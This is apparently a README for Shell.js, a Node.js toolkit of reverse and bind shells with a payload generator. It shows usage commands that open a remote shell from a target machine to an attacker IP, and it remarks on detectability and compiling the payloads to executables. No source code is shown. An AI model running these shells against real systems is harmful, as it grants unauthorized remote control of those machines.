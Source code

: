 # Shell.js

Shell.js includes complete TCP bind and reverse shells written entirely in Node.js!

## Reverse Shell

The reverse shell is created through `reverse.js` and `reverse_listener.js`.

`reverse.js` is run on the target machine with the format `node reverse.js <attacker IP> <port>`.

`reverse_listener.js` is run on the attacker machine with the format `node reverse_listener.js <port>`.

A reverse shell connects from the target to the attacker through a TCP connection, relaying output from the shell through the TCP socket and relaying incoming data in the socket to the shell input. This is the most common and less detectable than bind shells, which open ports on the attacker that can be easily identified as suspicious.

## Bind Shell

The bind shell is created through `bind.js` and `bind_listener.js`.

`bind.js` is run on the target machine with the format `node bind.js <port>`.

`bind_listener.js` is run on the attacker machine with the format `node bind_listener.js <attacker IP> <port>`.

A bind shell, unlike a reverse shell, connects from the attacker to the target, which then receives the TCP connection and begins relaying a shell through the socket. This runs some risks, including increased risk of detection with a socket being opened on the target and the ability of other attackers to connect to the machine with a simple TCP connection.

## Shell Generator

`generate.js` allows you to generate static shell payloads! If you are unable to run the shell with command-line arguments, this can allow you to directly add the port and host to the required launcher and listener so you can simply run the JavaScript files, or even compile them to executables!

The shell generator is run as `node generator.js <reverse/bind> <attacker IP> <port> <output file (optional)>`. However, unlike the other scripts, this is not stand-alone and requires the other files to be present in the directory, as it reads these files to modify them and generate the new payloads. Additionally, the output file argument is not required, and the default is `generated_shell`, which will produce the files `generated_shell.js` and `generated_shell_launcher.js`. The file name should not include the `.js` to allow both files to be created.
